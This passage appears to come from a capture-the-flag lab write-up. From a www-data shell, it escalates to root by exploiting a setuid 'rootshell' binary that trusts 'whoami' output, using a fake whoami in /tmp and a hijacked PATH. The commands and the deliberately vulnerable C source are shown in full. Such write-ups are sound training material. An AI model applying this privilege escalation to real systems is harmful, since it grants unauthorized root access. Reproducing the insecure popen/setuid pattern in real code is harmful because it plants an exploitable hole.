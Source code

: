 Immediately, /home/tom/rootshell sticks out. Inside /home/tom, we find an interesting binary rootshell with its source code in rootshell.c:
```bash
www-data@inclusiveness:/var/www/html/secret_information$ cd /home/tom && ls -la
...
-rwsr-xr-x  1 root root 16976 Feb  8 13:01 rootshell
-rw-r--r--  1 tom  tom    448 Feb  8 13:01 rootshell.c
```

source code:
```bash
www-data@inclusiveness:/home/tom$ cat rootshell.c
cat rootshell.c
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>

int main() {

    printf("checking if you are tom...\n");
    FILE* f = popen("whoami", "r");

    char user[80];
    fgets(user, 80, f);

    printf("you are: %s\n", user);
    //printf("your euid is: %i\n", geteuid());

    if (strncmp(user, "tom", 3) == 0) {
        printf("access granted.\n");
        setuid(geteuid());
        execlp("sh", "sh", (char *) 0);
    }
}
```
Looking at the source code, if the file is executed as the user tom by calling the function for whoami program for validation, then we will get a privileged shell; else, it will print user-ID of the user that is currently logged in. In other words, the rootshell program gives a high privilege shell if the output of the whoami program is tom.

We can easily take advantage of this misconfiguration by abusing the local PATH variable. Here, we create a file named whoami in the /tmp directory and write the following bash code to print tom:
```bash
www-data@inclusiveness:/home/tom$ cd /tmp
cd /tmp
www-data@inclusiveness:/tmp$ echo "printf "tom"" > whoami
echo "printf "tom"" > whoami
www-data@inclusiveness:/tmp$ chmod 777 whoami
chmod 777 whoami
www-data@inclusiveness:/tmp$
```
next we add the temporary path
```bash
www-data@inclusiveness:/tmp$ export PATH=/tmp:$PATH
export PATH=/tmp:$PATH
www-data@inclusiveness:/tmp$ echo $PATH
echo $PATH
/tmp:/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/bin
www-data@inclusiveness:/tmp$ 
```
now we can execute root shell
```bash
www-data@inclusiveness:/tmp$ cd /home/tom
cd /home/tom
www-data@inclusiveness:/home/tom$ ./rootshell
```